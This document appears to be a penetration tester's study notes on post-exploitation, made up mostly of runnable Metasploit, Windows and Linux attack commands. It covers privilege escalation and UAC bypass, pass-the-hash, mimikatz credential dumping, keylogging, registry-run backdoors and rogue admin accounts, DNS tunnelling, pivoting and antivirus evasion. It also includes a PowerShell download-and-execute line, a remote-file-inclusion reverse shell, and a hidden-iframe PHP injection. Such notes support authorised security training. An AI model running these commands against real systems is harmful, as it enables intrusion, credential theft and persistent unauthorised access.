



# Post Exploitation



Post exploitation step:



## Privileage escalation and maintaining access

**Windows privilege escalation**  
`sysinfo`  
windows: `systeminfo`  
Linux: `lsb_release`, `uname`, `lscpu`  
  
  
`run post/windows/manage/migrate` to let metasploit to migrate automatically.  
`migrate <process_id>` to migrate to a specific process.  
  
  
`getsystem` to highest privile in a windows system. But it doesn't always work very well.  
There are several techninque used by getsystem but to specify a specific techinique `getsystem -t 1`  
If UAC is enabled the above technique doesn't work.  
To check if UAC is enabled: `run post/windows/gather/win_privs`  
Then "bypassuac" will help to overcome UAC.  
`getprivs`  
[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME) downlaod it and upload compiled .exe file to target machine also .exe reverse shell code.  
`Akagi.exe 10 C:\Users\els\Downloads\shellcode.exe`

  
\`post/multi/recon/local\_exploit\_suggester\` will also list some attacks that can help exploit the session.  
To impersonate other valid users: - \`incognito\` - \`list\_tokens\` - \`impersonate\_token els\\\els\`  

Unquoted service path can be used for persistence as well privilieage escalation.  
For example: C:/Program Files/Adobe Files/ps.exe is an unqouted service path. Then we can place a shell code like shown below like below:

- C:/Program.exe
- C:/Program Files/Adobe.exe

To find unquoted services path: `wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i /v "/c:\windows\\" | findstr /i /v """"`  
`use exploit/windows/local/trusted_service_path` can also be used to automatically exploit unquoted service path via metasploit.  
`sc stop [service_name]`  
`sc start [service_name]`  
`icacls` use it for finding file permission in a windows folder.  
`set AutoRunScript migrate -n svchost.exe` if get unstable and timeout error.

  
\*\*Linux Privilege escalation\*\*

First check Linux Privilege Escalation notebook for better ways:  
`run post/linux/gather/enum_system` then check google for some valid privilege escalation for paticular version found.  
The finded code can be compliled on the target if there is a compiler else compile in our machine with proper parameter to match architecture of the target machine then upload it and run.  
For example, a machine with "SMP Debian 4.0.4-1+kali2 (2015-06-03) x86_64 GNU/Linux"  
`gcc -m32 -o shell shell.c`  
  
  
To create payload we can use msfvenom, [shellter](https://www.shellterproject.com/introducing-shellter/), [BDF](https://github.com/secretsquirrel/the-backdoor-factory)  
  
  
**Maintaining Access**



*Password hash*

- `run hashdump` or `smartdump`
    
- migrate to different process.
    
- Pass the hash:  
    NTLM kind of scenario use `psexec`.
    
    - `use exploit/windows/smb/psexec`  
        `SMBpass` \- password hash  
        `SMBUser` \- username  
        `RHost` \- target host.
        
    - If this doesn't work then we may need some registry changes. These are:  
        `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`  
        Add a new DWORD (32-bit) named LocalAccountTokenFilterPolicy and set its value to 1  
        `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters`  
        Add a new DWORD (32-bit) named RequireSecuritySignature and set its value to 0.  
        In powershell:  
        `Set-ItemProperty -Path HKLM: \SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System - Name LocalAccountTokenFilterPolicy -Value 1 -Type Dword`  
        `Set-ItemProperty -Path HKLM: \System\CurrentControlSet\Services\LanManServer\Parameters - Name RequireSecuritySignature -Value 0 -Type Dword`  
        In CMD:  
        `reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0 /f`  
        `reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\ServicesLAnMANServer\Parameters" /v RequireSecuritySignature /t REG_WORD /d 0 /f`  
        [More about pasing hash in current microsoft os](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/).
        
    - Apart from traditional way we can use xfreerdp.  
        `xfreerdp /u:admin /d:[domain] /pth:[hash] /v:[target_ip]`
        
- Crack password hash.
    
    - Mimikatz ([https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz))  
        Migrate to 64 bit process if its currently on 32 bit process.  
        `ps -A x86_64 -s` to list all 64 bit process.  
        `load mimikatz`  
        To retrieve credentails `wdigest` \> for more details click [wdigest](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778868(v=ws.10)?redirectedfrom=MSDN).  
        More about using [mimikatz tools](https://github.com/gentilkiwi/mimikatz/wiki).
- Another tool is WCE(Windows Credentail Editor) which is a binary which need to be uploaded to the target machine.[WCE](https://web.archive.org/web/20200414231958/http:/www.ampliasecurity.com/research/windows-credentials-editor/)  
    To run: `execute -i -f wce.exe -a -h`
    

  

*Enable RDP Service*

- `net start` to check enabled services.  
    or we can use  
    `wmic service where 'Caption like "%Remote%" and started=true' get Caption`  
    More about WMIC click [here](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/bb742610(v=technet.10)?redirectedfrom=MSDN).  
    We can also use meterpreter scripts like `run service_manager -l` and `run post/windows/gather/enum_services`  
    To enable RDP `run getgui -e` there lot of other options to and chech with `-h`. `-p` and `-u` can be used for adding new user and password.
- Allow logon through Remote Desktop Services.  
    `net localgroup "Remote Desktop Users" els_user /add`  
    `rdesktop [ipaddress] -u [username] -p [pwd]`  
    Like wise we can add to different group by listing with `net localgroup`  
    `net localgroup "Administrator" stduser /add` will add stuser with same privilege as Administrator.
- For Telneting use local group `TelnetClients  
      
    

*backdoor*

- Disadvantages of the backdoor it tries to connect back to same IP address unless we use hostnames.  
    [https://freedns.afraid.org/](https://freedns.afraid.org/), [https://www.zoneedit.com/dynamic-dns/](https://www.zoneedit.com/dynamic-dns/), [http://xname.org/](http://xname.org/).
- How it works?  
    Exploit the target > Upload the backdoor > Execute the file > Run it automatically at boot.
- Using metaspoloit we can automate this process with help of persistance module.  
    `run persistence -A -X -i 5 -p 8080 -r 192.168.102.147`  
    use `-h` parameter for help.  
    To verify: `reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v [uploaded paylaod name]`  
    `ls [uploaded folder name]` usually temp unless specified.  
    Then start a handler.
- Setting up backdoor manually
    - Create payload using msfvenom, Veil or BDF
    - `upload [path_to_payload.exe] [path_on_target]`
    - `reg setval -k [registry_key_path] -d "[value_of_the key]" -v [name_of_the_key]`  
        For example: `reg setval -k HKLM\\Software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\my_bd.exe" -v bd_name`  
          
        

*new user*

- Easy way to do is with `net user` and `net localgroup` command.  
    `net user EveUser EvePass /add`  
    `net localgroup "Administrators" EveUser /add`
- Then we can enable rdp and and add to rdp local group and connect via rdp with new username and password.

  

*DLL hijacking/Preloading*

- [DLL Preloading](https://support.microsoft.com/en-us/help/2389418/secure-loading-of-libraries-to-prevent-dll-preloading-attacks)
- [DLL Search order](https://docs.microsoft.com/en-gb/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)
    - The directory from which application was launched.
    - The C:\\Windows\\System32 directory
    - The 16-bit Windows system directory (ie, C:\\Windows\\System)
    - The Windows directory (C:\\windows)
    - The current directory at the time of execution
    - Any directories specified by the %PATH% environment variable
- Process Monitor  
    [process monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
    - Filer process name and also filter for "NAME NOT FOUND".
    - Identify the directory.
    - Drop in our infected dll file.
    - restart service or wait for restart of the services.  
          
        

* * *

* * *

## Pillaging

Data harvesting (Pillaging)

Post exploit commands: [Windows](https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US), [Linux/Unix/BSD](https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US), [OS X](https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US), [Metasploit](https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1), [Post exploitation commands](https://github.com/mubix/post-exploitation-wiki), [commands1](http://tim3warri0r.blogspot.com/), [Linux commands](https://web.archive.org/web/20150317144317/https:/n0where.net/linux-post-exploitation).

- `sysinfo` or `systeminfo` in shell
- `getuid`
- Also in meterpreter `run post/windows/gather/[module_name]`  
    `run post/windows/gather/enum_services` for gathering services in running in target.  
    `wmic service get Caption, StartName, State, pathname` also get similar the above command that can be runned in command shell.  
    `net use`  
    `service --status-all`  
    `ps`  
    `net view /domain` or we can run script `enum_domains`  
    `net group "Domain Controller" /domain`  
    `net user`  
    `run post/windows/gather/enum_ad_users`  
    `net user /domain`  
    `net localgroup [localgroup_name]`  
    `net share` or `enum_shares`  
    `netstat -ano`

`cat /etc/passwd` in Linux.

`scraper` and `winenum` are automated commands from Metasploit.

- `screenshot`
- `keyscan_start`, `keylogrecorder` \> migrate process to winlogon.exe process for logging at windows login time and explorer.exe for user level.  
    `keyscan_dump` and `keyscan_stop`  
    `run keylogrecorder -h` for more options. `run keylogrecorder -c 0` it will automatically migrate to correct process and writes result to a local group.
- `pwd` `getpwd`
- `search -d C:\\Users\\els\\ -f *.kdbx`
- [http://www.nirsoft.net/](http://www.nirsoft.net/) has many different tools for windows.
- `run post/windows/gather/credentials/` has many useful scripts.
- `enum_chrome` can be used to get saved passwords.
- Other gathering scripts are available in `post/multi/gather/`  
    `enum_application` can be used to get running application.
- [web\_browser\_password](http://www.nirsoft.net/utils/web_browser_password.html) is useful external tool.
- [DNS Tunneling](http://beta.ivc.no/wiki/index.php/DNS_Tunneling)  
    [Download iodine here](https://code.kryo.se/iodine/).  
    [How DNS tunneling works?](https://beta.ivc.no/wiki/index.php/DNS_Tunneling)  
    Prerequistes are:
    - Control over a domain name that you own and its DNS configuration.
    - An IP address to act as the autoritative Name server for your domain name for which you have SSH access to as well.
    - Server: `iodined -u nobodu -P 'tr98xgh!h7d' -f 10.0.0.1 ns1.cyberallthethings.com`
    - Clinet: `iodine -P 'tr98xgh!h7d' ns1.cyberallthethings.com -T CNAME -r -f`  
        Check accessing internet if you can. We should not be able to connect.  
        `ssh user@10.0.0.1 -D10.0.0.2:1234 -N -C` where 10.0.0.2 is the tunnel ip in our interface.  
        Change proxy in browser we should be able to access google.

* * *

* * *

## Mapping Networks

- `ipconfig` for windows and `ifconfig` for linux.
    
- `route print` in windows  
    `route -v` in linux  
    `route` in meterpreter  
    `route print:` in OS shell.  
    `ipconfig /displaydns`  
    `use sniffer`, `sniffer_start 2`, `sniffer_stop 2`
    
- `arp`
    
- `netstat`
    
- `run arp_scanner -h` in meterpreter. For example, `run arp_scanner -r 10.10.10.0/24`
    
- `ping_sweep`: `use post/exploit/gather/ping_sweep`
    
- `run netenum -h`  
      
    
- Pivoting
    
    - `route add 10.10.10.0 255.255.255.0 2` tells metasploit to route all traffic intended to 10.10.10.0./24 to route through meterpreter session 2.  
        `run autoroute -s 10.10.10.0/24`  
        If the victim 2 can only with hosts in the subnets then we need another route in exploited machine directing to our subnet so that the victim tried to contact us through exploited machine.  
        For simple tcp port scan: `use auxiliary/scanner/portscan/tcp`
    - `use auxiliary/server/socks4a`  
        `netstat -tulpn | grep 1080`  
        edit /etc/proxychain.conf last line as `sock4 127.0.0.1 1080`  
        `proxychains nmap -sT -Pn -n 10.10.10.5 --top-ports 50`  
        `proxychain iceweasel`
    - `portfwd add -l 3333 -p 3389 -r 10.10.10.5`  
        `netstat -tulpn | grep 3333`  
        `rdesktop 127.0.0.1:3333`

* * *

* * *

## Exploitation through pivoting

- Pass-the-hash  
    `hashdump` get the username and hash.  
    `use exploit/windows/smb/psexec`  
    `set payload [payload_needed]`  
    `set RHOST [target_ip]`  
    `set SMBUser [username]`  
    `set SMBPass [hash]`

* * *

* * *

## Meterpreter SSL certificate Impersonation and Detection Evasion

1.  `use auxiliary/gather/impersonate_ssl`  
    `set RHOST www.microsoft.com`  
    after running this the metasploit will create files. The pem file is what we want.
2.  Then create a payload and while creating it `set handlerssslert [pem_file directory]` and `set stagerverifysslcert true`  
    Then generate the payload by `generate -t exe -f [path/payload.exe]`
3.  Then while creating a multi handler:  
    `set handlerssslert [pem_file directory]`  
    `set stagerverifysslcert true`
4.  Then transfer the payload to victim and execute.

* * *
* * *

## Obtaining stored credentials with SessionGopher

[SessionGopher](https://github.com/Arvanaghi/SessionGopher)  
Important link: [https://github.com/fireeye](https://github.com/fireeye)

Download the ps1 file ether by wget or anyother method.

Transfer the file to exploited machine by `powershell.exe -nop -ep bypass -C iex (New-Object Net.webclient).DownlaodString('http://192.168.13.71/SessionGopher.ps1'); Invoke-SessionGopher`  
Also can use like this  
`powershell.exe -nop -ep bypass -C iex (New-Object Net.webclient).DownlaodString('http://192.168.13.71/SessionGopher.ps1'); Invoke-SessionGopher -Thorough`

* * *

* * *

## Remote File Inclusion vulnerability

`use exploit/unix/webapp/php_include`  
`set RHOST 10.100.0.100`  
`set PHPURI /index.php?pag=XXpathXX`  
`set SRVHOST 172.16.5.20`  
`set PAYLOAD php/meterpreter/reverse_tcp`  
`set LHOST 172.16.5.20`  
`exploit`  
A link we will copy paste and put in the link. Open a handler before that you will get a shell.  
Be sure that this session is not stable.

We can upload upload a reverseshell payload and execute it at start of meterpreter session that is stable. We can use `php/exec` payload module to automatically tell meterpreter to run a specific command at statup.

If we have access to the server then we can edit php file so that whoever visits the page we will get meterpreter session.

`use exploit/multi/browser/java_rhino` or `use auxiliary/server/browser_autopwn`  
The above module could give a link that we edit and paste in php file like shown below:

```php
...
    if (isset($_GET['pag'])){
        $variabile1=$_GET['pag'];
        include($variabile1);

    echo '<iframe src="http://172.16.5.20:8081/uo3eXen8t0I1n" width=1 height=1 style="visibility:hidden; position:absolute;"></iframe>';

    }else{

...
```
***
***
`wmic service WHERE "NOT PathName LIKE '%system32%'" GET PathName, Name > C:\Users\els\filt_serv.txt`
***
***

## Bypassing Antivirus

`Veil`

***
***

## XSS to domain user

`beef` can help to insert xss script with stealth.

And we can details of the server from the web UI of beef and exploit accordingly.

We can send IFreame from commands > misc > Create Invisible iFrame

**Credentails stealing**
`net use X: \\DC01\SysVol`
`X:`
`cd examplead.lan\Policies`
`dir /s *.xml`
`type X:\examplead.lan\Policies\{69BCC2AD-B7E5-4E02-833D-DBFDD19E7EB4}\Machine\Preferences\Groups\Groups.xml`
`gpp-decrypt 0cU/uGQrF5Xfhm61HAK8wFlfYce2W6ODQAeI957VrqY`

Windows will not allow to login via psexec from a domain user. We can override this by uploading a reveseshell payload to session and granding all access and using run_as module.

`icacls msfadexploit.exe /grant Everyone:(F)`

`use post/windows/manage/run_as`
`set CMD C:\\Users\\SecondUser\\msfadexploit.exe`
`set USER LADM`
`set PASSWORD Pm2fUXScqI`
`set SESSION 1`
`set DOMAIN PCCLIENT7`
`exploit`

Then we can use mimikatz for getting credentials by forcing user to login.
***
***